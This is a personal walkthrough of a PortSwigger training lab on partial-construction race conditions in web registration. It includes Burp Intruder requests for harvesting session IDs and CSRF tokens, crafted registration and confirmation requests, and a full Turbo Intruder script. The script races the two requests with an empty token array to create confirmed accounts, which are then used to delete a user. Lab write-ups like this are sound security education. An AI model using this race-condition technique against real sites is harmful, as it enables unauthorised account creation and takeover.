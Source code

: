 # Portswigger Lab: Race Conditions Partial Construction - My Solution

When I noticed on the evening of Thursday the 9th of August that James
Kettle had published new research, [Smashing the state machine: the true potential of web race conditions](https://portswigger.net/research/smashing-the-state-machine) 
in connection with his talk at Defcon 2023 I was super exited to dig into
it. I was, however, also dead tired from spending the day exploring Vienna,
Austria with my family. So I promised myself I'd get started on the train
home the following day.

By early Saturday afternoon I had already finished the *apprentice* and
*practitioner* labs, and so I settled in for the 
new expert lab, [Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction).

It's tricky, as promised in James' article.

## My approach

One of the first things that I noticed was the presence of a phpsessionid cookie.

Both the research paper and the academy article mention that the
standard PHP session library forces sequential requests within a given
session, masking race condition vulnerabilities. So I decided that my first
step would be to create a number of valid sessions, and gather the *phpsessionid* and
corresponding anti-csrf tokens.

My first attempt to generate sessions was with Burp macros, but after a few
hours of little or no progress I decided that I'd learn about macros later,
and would resort to pre-creating sessions in the Intruder. My reasoning is
that these sessions would be valid for some time, possibly for the lifetime
of the lab instance. 

I did worry a bit that a registration event might become tied to a given
session, but thankfully that turned out not to be the case.

Here's the request I used in Intruder:

```
GET /register HTTP/2
Host: <host>.web-security-academy.net
X-Count: §xxx§

```

![A simple GET request sent to intruder, and minimised, with an extra header for the dummy payload](resources/intruder_positions.png)

I decided to use sniper mode, with a dummy payload placed in a user-defined
header. In this case `X-Count`. 100 requests turned out to be overkill, but
I'll address that later.

![The payload is just a count](resources/intruder_payloads.png)

All that's left is to set up the extraction of server-provided data, the
phpsessionid and its associated anti-CSRF token, which are easily done in
the extraction tool in the Intruder settings section.

![Extract the phpsessionid from all responses](resources/intruder_extract_phpsessionid.png)

![Extract the anti-CSRF token from all responses](resources/intruder_extract_csrf.png)


The attack runs smoothly, and produces a results table which can be copied
and pasted into a file. Again these sessions seem to last for the lifetime
of the lab container instance.

![The results from Intruder](resources/intruder_results.png)

Here's an example of the Intruder attack output as text. I just did a select all,
copy in the intruder output and pasted it into a file called
*sessions.txt*:

```
0		200	false	false	3147	wXjqeZ18d0p4orBWLRrws1JxPudsHBYp	jsmKE2V5e6kjazHLnP2SKstCQz1kaUQu	
1	0	200	false	false	3147	wX3xGn0tXJNsy6IO2C1vHE6E6UEu02Mz	1XsQ0sju2ZdexPQAdgeNNF5iXam8Rw52	
2	1	200	false	false	3147	0IrTeheHwCkaHkAZt383a7SS78VmiYMZ	driecRa3rIxHe3EXcngVCSGyy91AqpCH	
3	2	200	false	false	3147	rqpEdsfbYPlHj87T7wnYAj7Lo6ZROkyC	XpxZvfGzRqdlgsPRSiuxPNiArMWMUuI8	
~~~
97	96	200	false	false	3147	LebKIrc0hVlbONMVPVKlJ8H7yjOW3pD1	DJMwwAendB5reAfsZnYczptOefZc4NCV	
98	97	200	false	false	3147	dRr3IcrF804i8BebS3kLjZfUJgy2maVF	06ASdOwrFItk4mM6XEXWIFZQMRyZNXnX	
99	98	200	false	false	3147	IQrkT05XeVPhdhjgolVqvChdWWyaMhHK	wMDEwWqsfFeNkmQ8ZT4b3k97TDYDTqkn	
100	99	200	false	false	3147	H2MIypAPjMvFd5RjxmSThB0P82TwEaCO	HE2tPZ9HWAKMhpc8vWzdMeVDZPPyryJl	
```

Once I had sessions I moved on constructing the actual turbo intruder
attack, and for an hour or so I got it completely wrong. I started with a
strategy of attacking the password, using a login request, reasoning that
there might be a short window in which the account is available and
unlocked. 

That didn't work, of course, but it did lead to a key observation. All POST
endpoints in the lab accept *extra* POST parameters without complaint. This
means that it's possible to use a single request for all endpoints, with
the path as a parameter.

Let's compare a valid registration request:
```
POST /register HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

With a valid login request:
```
POST /login HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

The login endpoint simply ignores the extra *email* parameter, which means
that the path can be parametized in Turbo-Intruder:

```
POST /%s HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=%s
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=%s&username=%s&email=%s%40ginandjuice.shop&password=peter
```

Later when I got frustrated that this wasn't working I went back and found
the oddly named /resources/static/users.js, and pretty quickly constructed
a GET request to /confirm. From there all that was left was to validate
that the /confirm POST endpoint would accept extra params. It does:

```
POST /confirm?token=foo HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

That means that just as with the failed attempt on the /login endpoint it's
possible to bounce back and forth between registration and confirmation.

So that's exactly what my Turbo-Intruder settings script does. For each
registration it also queues a confirmation POST in the hope that one or
more of them hit the tiny window during which confirmation can be done
a null token. The server of course processes the requests in whatever order
it chooses. So it's all luck from here:

Turbo-Intruder configuration (also available as ./partial_construction_race_condition.py).

```
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds the final byte of each request until openGate is invoked
    for line in open('/tmp/sessions.txt'):
        data = line.split('\t')
        phpsessionid = data[6]
        csrf = data[7]
        username = randstr(8)
        engine.queue(target.req, ['register',       phpsessionid, csrf, username, username], gate='race1', learn=1)
        engine.queue(target.req, ['confirm?token[]=', phpsessionid, csrf, username, username], gate='race1', learn=2)

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')
    #engine.openGate('race2')


def handleResponse(req, interesting):
    table.add(req)

```

However it turns out that 100 registrations are complete overkill.
Statistically it looks like just under one quarter of the confirmation
requests hit the window, producing about two dozen valid accounts:

![Turbo intruder setup](resources/turbo_intruder_setup.png)

![Turbo intruder results](resources/turbo_intruder_success.png)


All that's left is to log in with one of them and delete *Carlos*:

![](resources/success.png)


## Lessons learned

I really should have noticed users.js earlier. Having done so would have
saved me at least an hour. I can generalize this into a lesson to invest
more time into the reconaissance phase of an attack.

## Further ideas

Given the importance of operational security it could be useful to optimise
this attack to create fewer dummy accounts, and thus less noise. So the
next step is to find the smallest number of sessions from sessions.txt
which result in at least one valid account being created.



